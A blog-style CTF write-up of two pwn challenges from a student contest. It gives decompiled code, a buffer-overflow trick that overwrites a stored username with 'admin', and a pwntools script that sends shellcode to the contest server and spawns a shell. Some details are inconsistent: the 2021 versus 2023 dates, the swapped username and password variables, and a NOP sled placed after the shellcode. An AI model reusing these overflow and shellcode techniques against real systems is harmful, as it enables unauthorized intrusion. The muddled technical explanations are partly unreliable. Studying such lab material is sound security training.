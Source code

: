 ```yaml
---
title: "ASCIS warm up 2023 write up"
date: 2023-10-07T23:48:30+07:00
draft: false
tags: []
---
```


### Introduction

This is my write up for ASCIS warm up CTF 2021. I will only write about the pwn challenges.

### Challenge pwn 1

At first, i will check the properties of the binary file with checksec.

```
checksec --file=pwn
```

![checksec](/img/ascis-warm-up-write-up/checksec.png)

As you can see, the file is not protected by stack canary. So we can use buffer overflow to crack the program. I will use ghidra to decompile the binary file.

```c
void main(EVP_PKEY_CTX *param_1)

{
  int local_c;

  init(param_1);
  puts("Welcome to the Asean student\'s contest!");
  do {
    while( true ) {
      while( true ) {
        help();
        __isoc99_scanf(&DAT_00400d80,&local_c);
        if (local_c != 2) break;
        Signup();
      }
      if (2 < local_c) break;
      if (local_c == 1) {
        Login();
      }
      else {
LAB_00400ba5:
        puts("Thank you for your coming!!");
      }
    }
    if (local_c == 3) {
                    /* WARNING: Subroutine does not return */
      exit(0);
    }
    if (local_c != 4) goto LAB_00400ba5;
    getflag();
  } while( true );
}
```

The program is quite straight forward. There are four options for you to choose. The first option is to login. The second option is to signup. The third option is to exit the program. The last option is to get the flag.

Let's have a look in the getflag function.

```c
void getflag(void)

{
  int iVar1;
  char local_38 [44];
  int local_c;

  iVar1 = strcmp(&old_user,"admin");
  if (iVar1 != 0) {
    return;
  }
  local_c = open("/home/pwn01/flag",0);
  if (local_c == -1) {
    puts("Contact to author");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  read(local_c,local_38,0x1e);
  puts(local_38);
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```

From the given function, i can infer that the flag is stored in the file flag. The flag will be printed out if the username is admin. Furthermore, i found that the `&old_user` is the username that you are last signup.
So let dive into the signup function to make an admin account.

```c
undefined8 Signup(void)

{
  int iVar1;
  char local_88 [64];
  char local_48 [64];

  puts("Enter your username:");
  __isoc99_scanf(&DAT_00400c93,local_48);
  iVar1 = strcmp(local_48,"admin");
  if (iVar1 == 0) {
    puts("You can\'t register with admin");
  }
  else {
    iVar1 = strcmp(local_48,&old_user);
    if (iVar1 == 0) {
      puts("Username is already exists");
    }
    else {
      puts("Enter your passwd:");
      __isoc99_scanf(&DAT_00400c93,local_88);
      puts("Sign up success");
      memset(&old_user,0,0x32);
      memset(&old_passwd,0,0x32);
      strncpy(&old_user,local_48,0x32);
      strncpy(&old_passwd,local_88,0x32);
    }
  }
  return 0;
}
```

Just as i guessed, the program will block you from creating an admin account. However, the program doesn't check length of the username and password and if you look closely to the main program, you will see that the username (local_88) and password (local_48) are stored consecutively in the memory.

=> if we create a password with the length 64, we can overwrite the username with the password. Then we can login with the username admin and get the flag.

With that in mind, we could overflow the password with 64 characters of garbage and following is 'admin'.

![result](/img/ascis-warm-up-write-up/result.png)

### Challenge pwn 2

Chalenge 2 is a funnier. Let's check the properties of the binary file with checksec.

![checksec2](/img/ascis-warm-up-write-up/checksec2.png)

Stack canary and NX are disabled. So we can call the shellcode in the stack.

```c
int main(EVP_PKEY_CTX *param_1)

{
  size_t sVar1;
  char local_118 [208];
  undefined local_48 [64];

  init(param_1);
  puts("Welcome to the Asean student\'s contest!");
  printf("Give me your name: ");
  read(0,local_48,50);
  puts("What do you think about the contest (feedback) ?");
  read(0,local_118,100);
  sVar1 = strlen(local_118);
  if (sVar1 < 40) {
    puts("Feedback is too short");
    puts("Give more feedback to get more points");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("Thank you for your feecback");
  puts("Have a nice day");
  getflag(local_118);
  return 0;
}
```

```c
void getflag(code *param_1)

{
  (*param_1)();
  return;
}
```

At the frist glance, when can see that the program will call the function getflag with the parameter is the feedback. The feedback is stored in the local_118 variable. The getflag function will call the feedback as a function. So we can call the shellcode in the feedback.

But there is a problem. The feedback must be longer than 40 characters. So we can't just put the shellcode in the feedback. We have to find a way to bypass the check.

```c
  sVar1 = strlen(local_118);
  if (sVar1 < 40) {
    puts("Feedback is too short");
    puts("Give more feedback to get more points");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
```

Since we can't padding with normal characters, we have to use nop sled. The nop sled is a series of nop instructions. The nop sled will slide to the shellcode and execute it.

```python
from pwn import *

context.binary = ELF('./pwn2')

p = remote('139.180.137.100', 1338)     # Connect to the server
payload = asm(shellcraft.sh())          # The shellcode provided by pwntools
payload += b'\x90'*20                   # Padding with nop sled
log.info(p.clean())

p.sendline('hiii there')
p.sendline(payload)
p.interactive()
```

![result2](/img/ascis-warm-up-write-up/result2.png)

And that is the result. You have succesfully get the shell.

Thanks for reading my write up. I hope you enjoy it.
